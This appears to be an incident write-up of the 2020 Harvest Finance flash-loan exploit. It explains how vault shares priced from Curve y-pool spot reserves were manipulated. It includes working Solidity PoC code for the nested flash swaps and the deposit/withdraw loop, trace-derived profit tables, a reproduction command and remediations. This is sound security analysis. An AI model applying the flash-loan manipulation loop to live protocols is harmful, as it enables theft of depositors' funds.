



# Harvest Finance Exploit — Vault Share-Price Manipulation via Curve y-Pool Imbalance

> **Vulnerability classes:** vuln/oracle/price-manipulation · vuln/governance/flash-loan-attack

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.). The umbrella DeFiHackLabs repo does not whole-compile,
> so this PoC was extracted into a standalone project.
> Full verbose trace: [output.txt](output.txt).
> Verified on-chain source for the manipulated pool (Curve `y` swap, Vyper):
> [Vyper_contract.sol](sources/Vyper_contract_45F783/Vyper_contract.sol).
> The Harvest fUSDC vault is a proxy — see [VaultProxy.sol](sources/VaultProxy_f0358e/VaultProxy.sol);
> its logic lives in an un-verified implementation (see *Provenance note* below).

---

## Key info

| | |
|---|---|
| **Loss** | ~$24M total in the live incident (fUSDC + fUSDT pools). This isolated single-tx PoC nets **~$1.39M** (USDC + USDT) per loop run; the real attacker repeated the loop across many transactions. |
| **Vulnerable contract** | Harvest `fUSDC` Vault — [`0xf0358e8c3CD5Fa238a29301d0bEa3D63A17bEdBE`](https://etherscan.io/address/0xf0358e8c3CD5Fa238a29301d0bEa3D63A17bEdBE#code) (proxy → impl `0x0de5f3a958...`) |
| **Manipulated price source** | Curve `y` pool (yDAI/yUSDC/yUSDT/yTUSD) — [`0x45F783CCE6B7FF23B2ab2D70e416cdb7D6055f51`](https://etherscan.io/address/0x45F783CCE6B7FF23B2ab2D70e416cdb7D6055f51#code) |
| **Flash-loan source** | Uniswap V2 USDC/ETH pair `0xB4e16d0168e52d35CaCD2c6185b44281Ec28C9Dc` + USDT/ETH pair `0x0d4a11d5EEaaC28EC3F61d100daF4d40471f1852` |
| **Attacker EOA** | `0xf224ab004461540778a914ea397c589b677e27bb` (live incident) |
| **Attacker contract** | `0xc6028a9fa486f52efd2b95b949ac630d287ce0af` (live incident) |
| **Attack tx (first)** | `0x35f8d2f572fceaac9288e5d462117850ef2694786992a8c3f6d02612277b0877` |
| **Chain / block / date** | Ethereum mainnet / fork block **11,129,473** / October 26, 2020 |
| **Compiler** | PoC `0.8.10`; Vault impl `v0.5.16`; Curve pool `vyper:0.1.0b16` |
| **Bug class** | Oracle / share-price manipulation — vault values its assets from a flash-loan-manipulable spot AMM (Curve `calc_withdraw_one_coin`) |

---

## TL;DR

Harvest Finance's stablecoin vaults compute the value of one vault share from the **current, spot
reserves** of the Curve `y` pool (via `CRVStrategyStableMainnet.investedUnderlyingBalance()` →
`yCrvToUnderlying()` → `calc_withdraw_one_coin()`). Those reserves are trivially moved by anyone with
a flash loan. The attacker:

1. Flash-borrows **50M USDC** (Uniswap) and **17.3M USDT** (Uniswap).
2. Inside the loop, **dumps 17.2M USDT → USDC** through the Curve y-pool. This floods the pool with
   USDC, so Curve prices USDC *cheaply* and the vault's `investedUnderlyingBalance()` (denominated in
   USDC) **drops** from ~52.2M to ~51.1M.
3. **Deposits 49M USDC** into the fUSDC vault *while the share price is depressed*, so it is minted
   **more shares than fair** — `50,445,459` fUSDC for `49,000,000` USDC.
4. **Reverses the swap** (USDC → USDT), restoring the pool and pushing the vault's
   `investedUnderlyingBalance()` back up to ~52.2M — i.e. **inflating the share price**.
5. **Withdraws all shares** at the inflated price → **`49,313,741` USDC back** for a `49,000,000`
   deposit.

Each loop iteration extracts the ≈2% share-price swing as profit (≈$250–314k gross per loop in this
PoC). The deposited/withdrawn principal and both flash loans are returned in the same transaction;
the residue is pure profit. **Net in this PoC: 839,318 USDC + 554,532 USDT ≈ $1.39M.**

The root cause is the textbook *spot-price-as-oracle* mistake: a vault that mints/burns shares against
an instantaneous, manipulable AMM quote.

---

## Background — Harvest stablecoin vaults

Harvest Finance is a yield aggregator. A user deposits an underlying stablecoin (e.g. USDC) into a
`Vault` and receives a fungible receipt token (`fUSDC`). The vault routes the underlying into a
*strategy* (`CRVStrategyStableMainnet`) that farms Curve + yEarn. The receipt token's exchange rate is
defined by:

```
sharesToMint        = amount * totalSupply() / underlyingBalanceWithInvestment()
underlyingToReturn  = numberOfShares * underlyingBalanceWithInvestment() / totalSupply()
underlyingBalanceWithInvestment() = idle USDC in vault + strategy.investedUnderlyingBalance()
```

`investedUnderlyingBalance()` asks the strategy how many USDC its farmed position is currently worth.
For the stablecoin strategy this resolves, through several hops, to the **Curve y-pool's
`calc_withdraw_one_coin(yCRV_amount, 1)`** — the amount of USDC you would get if you redeemed the
strategy's yCRV LP tokens for USDC *right now*. That figure is a **spot quote off the pool's live
reserves**, and `calc_withdraw_one_coin` returns *less* USDC per yCRV when the pool is already
USDC-heavy (Curve's invariant penalizes the over-represented coin). That single property is the entire
exploit lever.

On-chain facts at the fork block (read directly from the trace, [output.txt](output.txt)):

| Quantity | Value |
|---|---|
| Curve y-pool `totalSupply()` (yCRV) | 202,728,891 yCRV (`2.027e26`) |
| Strategy yCRV holding (valued each call) | ~49.5M yCRV (`4.953e25`) |
| Vault `investedUnderlyingBalance()` — **unmanipulated** | ~**52.21M USDC** |
| Vault `investedUnderlyingBalance()` — **after USDT→USDC dump** | ~**51.11M USDC** (≈ −2.1%) |

---

## The vulnerable code

### 1. The manipulable price source: Curve `exchange_underlying`

The attacker moves the Curve y-pool with `exchange_underlying`, which actually deposits/withdraws the
underlying coins into/out of the pool's yToken legs — directly changing the reserves that price
everything ([Vyper_contract.sol:426-459](sources/Vyper_contract_45F783/Vyper_contract.sol#L426-L459)):

```python
@public
@nonreentrant('lock')
def exchange_underlying(i: int128, j: int128, dx: uint256, min_dy: uint256):
    ...
    USDT(self.underlying_coins[i]).transferFrom(msg.sender, self, dx)  # pull coin i (e.g. USDT)
    ERC20(self.underlying_coins[i]).approve(self.coins[i], dx)
    yERC20(self.coins[i]).deposit(dx)        # i-leg balance UP   → coin i now over-represented
    yERC20(self.coins[j]).withdraw(dy_)      # j-leg balance DOWN → coin j now scarce
    ...
    log.TokenExchangeUnderlying(msg.sender, i, dx, j, dy)
```

Swapping `(i=2 USDT) → (j=1 USDC)` makes the pool **USDC-heavy**. Curve then prices USDC *low*, so
`calc_withdraw_one_coin(yCRV, 1=USDC)` returns fewer USDC per yCRV — i.e. the vault thinks its position
is worth fewer USDC. There is no TWAP, no smoothing, no manipulation resistance: the very next read
sees the new reserves.

### 2. The vault values shares off that spot quote

`CRVStrategyStableMainnet.investedUnderlyingBalance()` (Harvest strategy, impl not in verified sources
— see *Provenance note*) calls `yCrvToUnderlying(strategyYcrv, 1)` →
`calc_withdraw_one_coin(...)`. The vault then mints/burns shares against
`underlyingBalanceWithInvestment()`, which embeds that number. **No part of the deposit/withdraw path
asserts that the price source is non-manipulable**, so deposit-at-low-price / withdraw-at-high-price is
a free round-trip profit.

The vault contract itself is reached through a standard upgradeable proxy that simply `delegatecall`s
the implementation ([VaultProxy.sol:41-59](sources/VaultProxy_f0358e/VaultProxy.sol#L41-L59)) — the
proxy is not the bug, it just forwards `deposit`/`withdraw` to the flawed logic.

### Provenance note

Only the **Curve y-pool** Vyper source and the Harvest **proxy** shell were verified/downloaded into
`sources/`. The Harvest `Vault` and `CRVStrategyStableMainnet` *implementation* logic
(`0x0de5f3a958f8e927c5b27d202d12b607e213d08c` and the strategy) is reconstructed from (a) the
fully-expanded `[delegatecall]` call tree in [output.txt](output.txt) — which shows every
`investedUnderlyingBalance()`, `yCrvToUnderlying()`, `calc_withdraw_one_coin()`, `emit Deposit`,
`emit Withdraw`, and share `Transfer` — and (b) Harvest's own post-mortem. Every numeric claim below
is taken verbatim from the trace.

---

## Root cause — why it was possible

> The fUSDC vault derives its share price from the **instantaneous spot composition** of the Curve y
> pool. Curve's `calc_withdraw_one_coin` deliberately under-values the over-represented coin, so by
> flash-loaning the pool into a temporary USDC-heavy state, the attacker depresses the share price,
> mints cheap shares, restores the pool, and redeems the now-expensive shares — all atomically.

Four design facts compose into the bug:

1. **Spot AMM used as an oracle.** The vault trusts a single, live AMM quote for the value of its
   assets. There is no TWAP, no Chainlink cross-check, and no bound on per-block price movement.
2. **The price source is permissionlessly movable.** `exchange_underlying` is public; anyone can shove
   the pool USDC-heavy (or USDC-light) for the duration of one transaction.
3. **Mint and redeem use the *same* manipulable number, read at two different moments.** Deposit reads
   it low, withdraw reads it high — the gap is the profit.
4. **Flash loans remove the capital constraint.** The attacker needs ~$67M of working capital for one
   loop, but borrows it for zero net cost (0.301% Uniswap-V2 flash-swap fee, recovered from profit).

The vault's only protection — a tiny `withdrawalFee`/`underlyingUnit` and the strategy's
`depositArbCheck()` — was insufficient: `depositArbCheck()` compares the pool's virtual price to a
threshold but the ~2% manipulation stayed under the trip line, and the trace shows the deposits and
withdrawals all succeeding.

---

## Preconditions

- A Harvest stablecoin vault whose strategy values its position from the Curve y-pool's spot
  `calc_withdraw_one_coin` (true for fUSDC / fUSDT in Oct 2020).
- Enough flash-loanable USDC + USDT to (a) materially imbalance the Curve pool and (b) fund a deposit
  large relative to the vault TVL. The PoC borrows **50M USDC + 17.3M USDT**.
- The Curve `exchange_underlying` swap must stay under the strategy's `depositArbCheck` virtual-price
  trip threshold — satisfied here (≈2% swing).
- No special timing: the entire loop executes inside one transaction via nested flash-loan callbacks
  ([HarvestFinance_exp.sol:59-73](test/HarvestFinance_exp.sol#L59-L73)).

---

## Attack walkthrough (with on-chain numbers from the trace)

The PoC nests two Uniswap-V2 flash swaps: borrow 50M USDC, then inside its callback borrow 17.3M USDT,
then run the manipulation loop 6 times, then repay both loans.

### Outer structure ([test/HarvestFinance_exp.sol](test/HarvestFinance_exp.sol))

```solidity
usdcPair.swap(usdcLoan, 0, address(this), "0x");      // flash-borrow 50,000,000 USDC

function uniswapV2Call(...) external {
    if (msg.sender == usdcPair) {
        usdtPair.swap(0, usdtLoan, address(this), "0x"); // nested flash-borrow 17,300,000 USDT
        usdc.transfer(usdcPair, usdcRepayment);          // repay 50,150,500 USDC (+0.301%)
    }
    if (msg.sender == usdtPair) {
        for (uint i = 0; i < 6; i++) theSwap(i);          // run the manipulation loop 6×
        usdt.transfer(usdtPair, usdtRepayment);          // repay 17,352,073 USDT (+0.301%)
    }
}

function theSwap(uint i) internal {
    curveYSwap.exchange_underlying(2, 1, 17_200_000e6, 17_000_000e6); // USDT→USDC: depress price
    harvest.deposit(49_000_000e6);                                    // mint cheap shares
    curveYSwap.exchange_underlying(1, 2, 17_310_000e6, 17_000_000e6); // USDC→USDT: inflate price
    harvest.withdraw(fusdc.balanceOf(address(this)));                 // redeem expensive shares
}
```

### One loop iteration (iteration #1, exact trace values)

| # | Step | What the trace shows | Effect |
|---|------|----------------------|--------|
| 0 | **Baseline** | Vault `investedUnderlyingBalance()` ≈ **52,214,459 USDC** (unmanipulated, seen at withdraw of a prior loop) | Honest share price. |
| 1 | **Depress** — `exchange_underlying(2,1, 17.2M USDT)` (USDT→USDC) | Pool becomes USDC-heavy; Curve prices USDC low. `investedUnderlyingBalance()` read at deposit = **51,107,191 USDC** ([output.txt L738](output.txt)) | Share price ↓ ≈2.1%. |
| 2 | **Deposit** — `harvest.deposit(49,000,000 USDC)` | `emit Deposit(wad: 49,000,000e6)`; fUSDC minted `Transfer(from: 0x0 … value: 50,445,459,092,162)` ([output.txt L862](output.txt)) | Attacker gets **50,445,459 fUSDC for 49,000,000 USDC** — 1.45M *extra* shares. |
| 3 | **Inflate** — `exchange_underlying(1,2, 17.31M USDC)` (USDC→USDT) | Pool restored / USDC scarce again; `investedUnderlyingBalance()` read at withdraw = **52,214,459 USDC** ([output.txt L1108](output.txt)) | Share price ↑ back up. |
| 4 | **Withdraw** — `harvest.withdraw(50,445,459 fUSDC)` | fUSDC burned `Transfer(to: 0x0 … 50,445,459,092,162)`; `emit Withdraw(amount: 49,313,741,771,371)` ([output.txt L1244](output.txt)) | Attacker gets back **49,313,741 USDC** for a 49,000,000 deposit. |

The denominator swing (`investedUnderlyingBalance`) per loop, straight from the trace:

| Iter | deposit-time (USDC) | withdraw-time (USDC) | swing |
|-----:|--------------------:|---------------------:|------:|
| 1 | 51,107,191 | 52,214,459 | +1,107,268 (2.17%) |
| 2 | 51,161,776 | 52,216,685 | +1,054,909 (2.06%) |
| 3 | 51,213,821 | 52,218,906 | +1,005,084 (1.96%) |
| 4 | 51,263,362 | 52,221,120 | +957,758 (1.87%) |
| 5 | 51,310,448 | 52,223,328 | +912,879 (1.78%) |
| 6 | 51,355,142 | 52,225,530 | +870,387 (1.69%) |

(The swing shrinks each loop because each round-trip leaks a little value into the Curve LPs and the
vault, but it stays profitable.)

### Per-loop gross profit (from `Withdraw` vs `Deposit` amounts)

| Iter | Deposit (USDC) | Withdraw (USDC) | Gross delta |
|-----:|---------------:|----------------:|------------:|
| 1 | 49,000,000.00 | 49,313,741.77 | +313,741.77 |
| 2 | 49,000,000.00 | 49,299,354.71 | +299,354.71 |
| 3 | 49,000,000.00 | 49,285,624.94 | +285,624.94 |
| 4 | 49,000,000.00 | 49,272,548.87 | +272,548.87 |
| 5 | 49,000,000.00 | 49,260,118.45 | +260,118.45 |
| 6 | 49,000,000.00 | 49,248,321.63 | +248,321.63 |

---

## Profit / loss accounting

| Item | USDC | USDT |
|---|---:|---:|
| Flash-borrowed | 50,000,000 | 17,300,000 |
| Flash repayment (+0.301% fee) | 50,150,500 | 17,352,073 |
| Flash fee paid | −150,500 | −52,073 |
| **Attacker balance after the whole tx** | **839,318** | **554,532** |

- **Before:** 0 USDC / 0 USDT ([output.txt L136-139](output.txt)).
- **After:** 839,318 USDC + 554,532 USDT ([output.txt L5570-5573](output.txt)).
- **Net profit (this PoC, 6 loops):** **≈ $1,393,850** after both flash-loan fees are paid.

In the live incident the attacker ran far more iterations across many transactions, draining the fUSDC
and fUSDT vaults of **~$24M** total before exiting.

---

## Diagrams

### Sequence of one manipulation loop



### Share-price / pool-state evolution within a loop



### Why the spot quote is exploitable



---

## Why each magic number

- **`usdcLoan = 50,000,000` / `usdtLoan = 17,300,000`:** sized so the USDT→USDC swap (17.2M) moves the
  Curve y-pool enough to shift `investedUnderlyingBalance` by ~2%, and so the 49M deposit is large
  relative to vault liquidity (maximizing the absolute dollar value of the 2% mispricing).
- **`exchange_underlying(2,1, 17.2M, …)`:** index `1 = USDC`, `2 = USDT` in this pool. Sending USDT in
  and pulling USDC out makes the pool USDC-heavy → USDC priced low → vault share price depressed.
- **`deposit(49,000,000e6)`:** the principal that gets minted at the depressed price. It is fully
  recovered at withdraw; only the price-gap is profit.
- **`exchange_underlying(1,2, 17.31M, …)`:** the reverse swap. 17.31M (slightly more than 17.2M) covers
  Curve's 0.04% swap fee so the pool returns essentially to baseline, re-inflating the share price.
- **`repayment = loan * 100,301 / 100,000`:** the 0.301% Uniswap-V2 flash-swap fee on each borrowed
  asset (`150,500` USDC + `52,073` USDT), paid out of profit.
- **6 loop iterations:** each loop harvests the ~2% swing; in the PoC six loops accumulate ~$1.39M. The
  loop count is a free dial — the real attacker used many more.

---

## Remediation

1. **Never price vault shares off a spot AMM quote.** Replace `calc_withdraw_one_coin`-based valuation
   with a manipulation-resistant oracle: a Chainlink stablecoin feed, or a time-weighted average price
   that cannot be moved within a single transaction.
2. **Bound per-block / per-tx price movement.** If a strategy must read an AMM, compare the spot value
   to a stored last-known-good value and revert if it deviates by more than a small tolerance
   (Harvest's `depositArbCheck` existed but its threshold was too loose to catch a ~2% swing).
3. **Charge a meaningful deposit/withdraw fee or impose a same-block deposit-then-withdraw lock.** A
   minimum holding period (or a fee larger than the achievable manipulation gap) destroys the
   atomic round-trip profit even if the price source is imperfect.
4. **Make share price flash-loan-aware.** Snapshot the valuation at the *start* of a transaction (or
   use an oracle the caller cannot move in the same tx) so that mint-low/redeem-high is impossible.
5. **Cap single-operation share issuance/redemption relative to TVL**, so one deposit cannot capture a
   large absolute slice of a transient mispricing.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many
unrelated PoCs that fail to compile under `forge test`'s whole-project build):

```bash
_shared/run_poc.sh 2020-10-HarvestFinance_exp -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required (the fork pins block **11,129,473**,
  Oct 2020). The PoC's `setUp()` calls `cheats.createSelectFork("mainnet", 11129473)`
  ([HarvestFinance_exp.sol:42](test/HarvestFinance_exp.sol#L42)); configure the `mainnet` RPC alias in
  `foundry.toml` to an archive node.
- Result: `[PASS] testExploit()`. Final attacker balances: **839,318 USDC** and **554,532 USDT**.

Expected tail:

```
  After exploitation, USDC balance of attacker:: 839318
  After exploitation, USDT balance of attacker:: 554532

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 94.43s
Ran 1 test suite ... 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

---

*Reference: Harvest Finance official post-mortem (Oct 26, 2020); SlowMist / Rekt analyses. Loss in the
live incident ≈ $24M across the fUSDC and fUSDT vaults.*
